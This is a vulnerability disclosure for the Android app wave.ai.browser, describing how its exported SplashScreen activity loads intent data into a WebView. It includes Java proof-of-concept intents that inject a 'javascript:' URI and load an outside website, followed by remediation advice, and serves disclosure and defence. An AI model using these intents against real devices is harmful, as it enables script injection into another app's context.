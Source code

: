 ** This issue is fixed as of version 2.0.19 **


## Vulnerability Report: Arbitrary Code Execution via Exported `SplashScreen` Activity in `wave.ai.browser`

### Overview:

The `wave.ai.browser` application version 1.0.38* contains a manifest entry that exports the `wave.ai.browser.ui.splash.SplashScreen` activity. This exported activity permits unauthorized applications to start it with arbitrary intent data & can lead to arbitrary code execution within the context of the `wave.ai.browser` application.


### Detailed Description:

An exported activity is one that can be invoked by other applications on the device. If not properly protected or if it implicitly trusts the data it receives, this can pose a security risk.

Given the manifest entry:
```xml
<activity android:theme="@style/Theme.App.Splash" 
          android:name="wave.ai.browser.ui.splash.SplashScreen" 
          android:exported="true" 
          android:launchMode="singleTop" 
          android:screenOrientation="portrait">
</activity>
```

The `wave.ai.browser.ui.splash.SplashScreen` activity is exported, meaning any third-party application can start this activity.

This activity uses a WebView component to display web content and doesn't adequately validate or sanitize the URI or extra data passed in the intent. 

Therefore a malicious app could craft an intent to load a website or execute arbitrary JavaScript within that WebView.

### POC:


![wave_ai_uri](https://github.com/actuator/wave.ai.browser/assets/78701239/cc22e955-a306-440c-8b92-00fdfc705717)




#### Malicious Intent Creation:
In a malicious app:
```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("wave.ai.browser", "wave.ai.browser.ui.splash.SplashScreen"));
intent.setData(Uri.parse("javascript:malicious_code_here"));
startActivity(intent);
```


If the `SplashScreen` activity in `wave.ai.browser` loads URIs in this manner without checking or sanitizing them, the malicious JavaScript code would execute within the context of the `wave.ai.browser` app or load an arbitrary website.

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("wave.ai.browser", "wave.ai.browser.ui.splash.SplashScreen"));
intent.setData(Uri.parse("http://maliciouswebsitetest.com/"));
startActivity(intent);
```

### CWE References:

CWE-94: Improper Control of Generation of Code ('Code Injection'): The vulnerability can potentially allow attackers to inject arbitrary code.

### Recommendations:

1. **Limit the Export of Activities**: Unless there's a compelling reason, avoid exporting activities. If you must export an activity, use intent filters and permissions to restrict who can start the activity.
2. **Validate and Sanitize Intent Data**: Always validate and sanitize data obtained from intents before use. Never trust data from external sources.
3. **Secure WebView Settings**: If using WebView, disable JavaScript unless necessary. Always sanitize and validate URLs and data passed to the WebView.

### Conclusion:

The manifest configuration of `wave.ai.browser` exposes it to potential arbitrary code execution risks.
